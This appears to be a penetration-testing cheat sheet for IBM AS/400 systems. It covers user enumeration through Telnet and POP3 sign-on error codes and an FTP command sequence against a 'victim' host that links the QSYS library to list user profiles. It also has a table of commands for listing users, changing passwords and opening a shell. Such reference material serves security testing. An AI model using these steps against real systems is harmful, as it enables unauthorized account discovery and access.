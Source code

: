 ## User Enumeration

### Telnet

Authentication Error Messages in **Telnet**

* CPF1107 : Password not correct for user profile
* CPF1109 : Not authorized to subsystem.
* CPF1110 : Not authorized to work station.
* CPF1116 : Next not valid sign-on attempt varies off device.
* CPF1118 : No password associated with user XYZ.
* CPF1120 – User AABBA does not exist
* CPF1133 Value X Z S is not a valid name
* CPF1392 : Next not valid sign-on disables user profile.
* CPF1394 : User profile XYZ cannot sign on.

### POP3

Authentication Error Messages in **POP3**

```ps1
+OK POP3 server ready
USER bogus
+OK POP3 server ready
PASS xyz
-ERR Logon attempt invalid CPF2204
```

* CPF2204 : User profile not found
* CPF22E2 : Password not correct for user profile
* CPF22E3 : User profile is disabled
* CPF22E4 : Password for user profile has expired
* CPF22E5 : No password associated with user profile

### FTP

Create a symbolic link to the QSYS library and list *.USRPRF

```ps1
open as400.victim.com
as400user
password
quote site namefmt 1
quote site listfmt 1
mkdir /test12345
quote rcmd ADDLNK OBJ('/qsys.lib')
NEWLNK('/test12345/qsys')
dir /test12345/qsys/*.usrprf
```

## Useful Commands

| Command                      | Description  |
| ---------------------------- | ------------ |
| `DSPUSRPRF <user>`           | Display user profile |
| `WRKUSRPRF <user>`           | Display user, look for Group profile , and Supplemental groups |
| `WRKUSRPRF *ALL`             | Display all users |
| `DSPPGM LIB/PROGRAM`         | Display program infos |
| `WRKOBJ (*ALL QSYS *LIB)`    | List libraries |
| `CHGUSRPRF USRPRF(<USERNAME>) PASSWORD(<NEW_PASSWORD>)` | Setup User Password |
| `QSH`                        | Start a QSHELL instance |